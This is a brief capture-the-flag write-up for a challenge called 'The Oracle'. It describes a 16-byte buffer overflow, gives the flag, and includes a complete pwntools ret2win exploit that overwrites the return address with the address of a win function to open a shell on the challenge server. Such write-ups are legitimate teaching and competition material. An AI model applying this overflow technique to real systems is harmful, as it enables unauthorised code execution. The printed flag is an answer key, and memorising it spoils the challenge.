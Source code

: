 # The Oracle

It reads 128 bytes into a 16 byte buffer, and has a win function that pops a shell. ret2win.

#### Flag: flag{Be1ng_th3_1_is_JusT_l1ke_b3ing_in_l0v3}
```py
from pwn import *
e = ELF("./oracle")
p = e.process() if args.LOCAL else remote('chal.ctf.b01lers.com', 1015)
NUM_TO_RET = 0x10 + 8
padding = b'A'*NUM_TO_RET
payload = padding + p64(e.sym['win'])
p.sendline(payload)
p.interactive()
```
